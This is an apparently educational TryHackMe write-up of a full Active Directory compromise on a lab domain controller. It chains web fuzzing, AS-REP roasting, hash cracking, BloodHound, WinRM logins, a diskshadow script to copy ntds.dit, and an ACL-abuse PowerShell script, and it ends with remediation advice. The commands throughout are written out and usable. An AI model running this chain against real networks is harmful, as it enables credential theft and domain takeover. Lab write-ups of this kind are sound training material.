# Fusion Corp — Active Directory Compromise Report

> **Platform:** TryHackMe · **Category:** Active Directory / Red Team · **Target OS:** Windows Server (Domain Controller)
> **Objective:** Escalate from an unauthenticated foothold to full domain compromise and retrieve all user flags.
> **Toolset:** Nmap, Impacket (`GetNPUsers.py`, `secretsdump.py`), BloodHound (Python ingestor + Neo4j), Apache Directory Studio, Evil-WinRM, John the Ripper, HackPlayers `Acl-FullControl.ps1`, LibreOffice.

---

## Executive Summary

A complete Active Directory compromise was achieved starting from an **unauthenticated** position by chaining web-layer information disclosure, Kerberos misconfigurations, and dangerous ACLs:

1. **Web service information disclosure** → backup endpoint exposed an `.odt` document containing domain usernames.
2. **AS-REP Roasting** against harvested usernames → cracked service account password (**lparker**) offline.
3. **BloodHound analysis** → `lparker` member of *Remote Management Users* → WinRM access → first flag.
4. **LDAP attribute exposure** → `jmurphy` password stored in cleartext in `userPassword`/`description` attribute → second flag.
5. **Backup Operators group membership** with `SeBackupPrivilege` / `SeRestorePrivilege` → shadow copy approach blocked by non-interactive console.
6. **ACL modification via `Acl-FullControl.ps1`** → granted `FullControl` over `C:\Users\Administrator` to `jmurphy` → third flag retrieved.

Each weakness was individually survivable; combined, they resulted in total domain compromise.

### Attack Chain Overview

```text
HTTP /backup endpoint ──► .odt (usernames) ──► AS-REP Roast (GetNPUsers)
                                                        │
                                                lparker (cracked)
                                                        │
                                  BloodHound ──► Remote Management Users
                                                        │
                                                WinRM (evil-winrm) ──► FLAG 1
                                                        │
                                    Enumerate Users ──► jmurphy
                                                        │
                                    LDAP (Apache Directory Studio)
                                                        │
                                              Cleartext password
                                                        │
                                                WinRM (evil-winrm) ──► FLAG 2
                                                        │
                                          Backup Operators + SeBackup/SeRestore
                                                        │
                                    Shadow Copy (diskshadow) → FAIL (non-interactive)
                                                        │
                                    ACL Abuse (Acl-FullControl.ps1)
                                                        │
                                          FullControl on C:\Users\Administrator
                                                        │
                                                               FLAG 3
```

---

## 1. Reconnaissance

### 1.1 Host Discovery & Full Port Scan

An initial TCP SYN scan across the entire port range was executed to identify exposed services on the domain controller:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv $IP -oG allPorts
```

| Flag | Purpose |
|------|---------|
| `-p-` | Scans all 65,535 TCP ports |
| `-sS` | SYN (half-open) stealth scan |
| `--open` | Reports only open ports |
| `--min-rate 5000` | Enforces a minimum packet rate to accelerate the scan |
| `-n` | Disables DNS resolution |
| `-Pn` | Skips host discovery (assumes the host is up) |
| `-oG allPorts` | Greppable output for automated parsing |



The scan revealed a classic **Domain Controller footprint** plus an HTTP service on port 80: DNS (53), HTTP (80), Kerberos (88/464), LDAP/LDAPS (389/636), Global Catalog (3269), SMB (139/445), RPC EPMapper (135/dynamic range), RDP (3389), and AD Web Services (9389).

### 1.2 Service & Version Enumeration

A targeted scan with service/version detection and default NSE scripts was launched against every open port:

```bash
sudo nmap -p53,80,88,135,139,389,445,464,636,3269,3389,9389,49668,49670,49673,49702 -sCV $IP -oN targeted.txt
```



---

## 2. Enumeration

### 2.1 SMB — Null & Guest Session Testing

Unauthenticated (null) and Guest sessions were attempted against the SMB service to enumerate shares:

```bash
nxc smb $IP -u '' -p '' --shares
nxc smb $IP -u 'Guest' -p '' --shares
```

Both attempts were rejected — no anonymous or guest share enumeration was possible through SMB.

### 2.2 Web Service — Directory Fuzzing

With SMB blocked, enumeration shifted to the HTTP service on port 80. Directory fuzzing revealed a `/backup` endpoint:

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirb/common.txt
```



The endpoint returned a downloadable OpenDocument Text file (`backup.odt`):



### 2.3 Document Analysis — Username Harvesting

The `.odt` file was opened with LibreOffice, revealing a list of domain usernames:



The extracted usernames were saved to `users.txt` for Kerberos attacks.

---

## 3. Initial Access — AS-REP Roasting

### 3.1 Requesting AS-REPs (No Pre-Auth Accounts)

AS-REP Roasting targets accounts with **Kerberos pre-authentication disabled** (`DONT_REQ_PREAUTH` / UAC `0x400000`). Any domain user — or unauthenticated caller if the KDC permits — can request an AS-REP for such accounts; the response is encrypted with a key derived from the target's password, creating an offline cracking oracle.

Using the harvested username list, `GetNPUsers.py` was executed without credentials (`-no-pass` implied by empty domain\user syntax):

```bash
GetNPUsers.py 'fusion.corp/' -usersfile users.txt -dc-ip $IP
```



A crackable AS-REP (`$krb5asrep$23$` format, etype 23/RC4) was obtained for the user **lparker**:

```bash
echo '<AS_REP_HASH>' > lparker_asrep.txt
```

### 3.2 Offline Password Cracking

The hash was cracked offline with John the Ripper using `rockyou.txt`:

```bash
john lparker_asrep.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



The plaintext password for **lparker** was recovered, providing the first authenticated foothold.

---

## 4. Situational Awareness — BloodHound

### 4.1 Active Directory Data Collection

BloodHound graph analysis was used to map trust relationships, ACLs, group memberships, and attack paths. Collection was performed remotely with the Python ingestor:

```bash
mkdir bloodhound && cd bloodhound
bloodhound-python -u lparker -p '<PASSWORD>' -d fusion.corp -ns $IP -c All
sudo neo4j start
bloodhound
```

### 4.2 Analysis of lparker

**lparker** was marked as *Owned* to track reachability. Analysis revealed membership in:

- **REMOTE MANAGEMENT USERS** → WinRM / PowerShell Remoting logon rights against the DC.
- **DOMAIN USERS** → standard authenticated access.



BloodHound's edge abuse information confirmed the WinRM path.

---

## 5. First Foothold — WinRM as lparker

An interactive WinRM session was established via Evil-WinRM:

```bash
evil-winrm -u lparker -p '<PASSWORD>' -i $IP
```

The first flag was retrieved from the user's desktop:

```powershell
type C:\Users\lparker\Desktop\flag.txt
```



Post-exploitation enumeration of `C:\Users` revealed a second user: **jmurphy**.



---

## 6. Credential Hunting — LDAP Enumeration

### 6.1 Authenticated LDAP Browse with Apache Directory Studio

An authenticated LDAP session over port 389 was opened using Apache Directory Studio to inspect user objects, attributes, and group memberships directly:





### 6.2 Cleartext Password Exposure in jmurphy Object

Inspecting the `jmurphy` user object revealed a sensitive attribute (`userPassword` / `description` / custom attribute) containing a cleartext password:



This misconfiguration — storing reversible/plaintext credentials in AD attributes — is a critical hygiene failure.

---

## 7. Lateral Movement — WinRM as jmurphy

Using the discovered credentials, a second WinRM session was established:

```bash
evil-winrm -u jmurphy -p '<PASSWORD>' -i $IP
```

The second flag was retrieved:

```powershell
type C:\Users\jmurphy\Desktop\flag.txt
```



### 7.1 Privilege Analysis

Group membership and privilege enumeration confirmed **Backup Operators** membership with high-value privileges:

```powershell
whoami /groups
whoami /priv
```





Key privileges:
- **SeBackupPrivilege** — traverse any ACL for backup purposes.
- **SeRestorePrivilege** — write any file during restore operations.

---

## 8. Privilege Escalation Attempts

### 8.1 Shadow Copy via diskshadow (Failed)

Standard Backup Operators escalation uses `diskshadow` to create a shadow copy, expose it as a drive letter, and copy `ntds.dit` + `SYSTEM` hive for offline secret extraction:

```cmd
diskshadow.exe
set context persistent nowriters
add volume c: alias shadow
create
expose %shadow% Z:
copy Z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
copy Z:\Windows\System32\config\SYSTEM C:\Temp\SYSTEM
```

This approach **failed** because the Evil-WinRM session is non-interactive; `diskshadow` requires an interactive console to process the script commands.

### 8.2 ACL Modification via Acl-FullControl.ps1

Research identified a public script from HackPlayers (`PsCabesha-tools`) that leverages `SeBackupPrivilege`/`SeRestorePrivilege` to modify filesystem ACLs, granting arbitrary principals `FullControl` over target paths.

The script was downloaded and uploaded to the session:

```bash
# On attacker machine
wget https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Acl-FullControl.ps1

# In Evil-WinRM
upload Acl-FullControl.ps1
```



The module was imported and executed:

```powershell
Import-Module .\Acl-FullControl.ps1
Acl-FullControl -user fusion.corp\jmurphy -path C:\Users\Administrator
```









The ACL modification succeeded — `jmurphy` now holds `FullControl` over the Administrator's profile directory.

---

## 9. Full Compromise — Administrator Flag Retrieval

With `FullControl` on `C:\Users\Administrator`, the third flag was read directly:

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```



**All flags captured — objective complete.**

---

## 10. Findings & Remediation Recommendations

| # | Finding | Impact | Recommendation |
|---|---------|--------|----------------|
| 1 | Web backup endpoint exposes sensitive document (.odt) | Username enumeration → targeted Kerberos attacks | Remove backup files from webroot; enforce authentication on backup endpoints; implement WAF rules |
| 2 | AS-REP roastable accounts (pre-auth disabled) | Offline password cracking → valid credentials | Enable Kerberos pre-authentication on all accounts (`DONT_REQ_PREAUTH` = 0); audit UAC flags via BloodHound/ADACLScanner |
| 3 | Weak password on AS-REP roastable account (lparker) | Single hash crack → domain foothold | Enforce ≥25-char random passwords; migrate service accounts to **gMSA**; prefer AES (etype 18/17) over RC4 |
| 4 | Cleartext password stored in LDAP user attribute (jmurphy) | Direct credential theft via LDAP read | Never store passwords in AD attributes; use LAPS/gMSA/secrets vault; audit sensitive attributes (`userPassword`, `unicodePwd`, `description`) |
| 5 | Backup Operators with SeBackup/SeRestore + WinRM access | Filesystem ACL bypass → privilege escalation | Restrict WinRM/Remote Management to Tier-0 admins; deny Backup Operators interactive logon; monitor Event ID 4672 (special logon) |
| 6 | Non-interactive shell blocks diskshadow shadow copy | Escalation path limited but not eliminated | Harden Backup Operators: remove `SeRestorePrivilege` where unnecessary; enforce interactive logon restrictions |
| 7 | Filesystem ACLs modifiable via Backup Operators privileges | Arbitrary `FullControl` grant → full profile compromise | Audit SACLs on sensitive directories (`C:\Users\Administrator`, `C:\Windows\NTDS`); enable SACL auditing (Event ID 4663) |

---

## 11. Lessons Learned

- **Web-layer exposure feeds AD attacks**: a single forgotten backup document provided the username list that made AS-REP roasting efficient.
- **Pre-authentication is not optional**: accounts with `DONT_REQ_PREAUTH` are offline cracking oracles; this setting must be treated as a critical misconfiguration.
- **Credential hygiene extends to LDAP attributes**: storing cleartext passwords in `userPassword`, `description`, or custom attributes is equivalent to posting them on a shared drive.
- **Backup Operators are de facto local admins**: `SeBackupPrivilege` + `SeRestorePrivilege` + interactive access = full filesystem control. Treat this group as Tier-1/0.
- **ACL abuse is a reliable fallback**: when shadow copies fail (non-interactive shells, EDR, etc.), modifying DACLs via backup privileges remains a potent primitive.
- **Defensive visibility gaps**: no alerts on AS-REP requests (4768), LDAP attribute reads of sensitive fields, `SeBackupPrivilege` use (4672), or DACL modifications on admin profiles (4663/4738).

---
*Report prepared for educational purposes within the TryHackMe lab environment. All techniques were executed against authorized target infrastructure.*